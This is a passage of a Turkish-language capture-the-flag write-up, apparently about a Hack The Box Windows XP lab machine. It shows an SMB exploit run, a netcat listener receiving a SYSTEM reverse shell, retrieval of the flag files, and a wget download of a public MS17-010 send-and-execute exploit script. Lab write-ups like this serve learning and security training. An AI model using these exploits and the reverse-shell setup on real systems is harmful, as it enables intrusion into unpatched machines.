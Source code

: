 ```
#######################################################################

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
```

Çalışırken, listener'ımdan bir callback alıyorum:

```
root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.4.
Ncat: Connection from 10.10.10.4:1028.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

Ve oradan her iki bayrağı da alabilirim:

```
C:\Documents and Settings\john\Desktop>type user.txt
e69af0e4...

C:\Documents and Settings\Administrator\Desktop>type root.txt
993442d2...
```


### MS-17-010

#### Locate Exploit

MS-17-010 kodu içeren birkaç GitHub var, ancak XP'de çalışan çok fazla kod yok. Benim favorim helviojunior tarafından worawit'in MS17-010 reposunun fork'u. Bir send_and_execute.py eklemiş, bir executable verebilirim ve onu yükleyip çalıştırır.

Komut dosyasının bir kopyasını alacağım:

```
root@kali# wget https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py
--2019-02-19 14:05:59--  https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.248.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.248.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 43783 (43K) [text/plain]
Saving to: ‘send_and_execute.py’

send_and_execute.py                                         100%[========================================================================================================================================>]  42.76K  --.-KB/s    in 0.01s   

2019-02-19 14:05:59 (3.19 MB/s) - ‘send_and_execute.py’ saved [43783/43783]
```
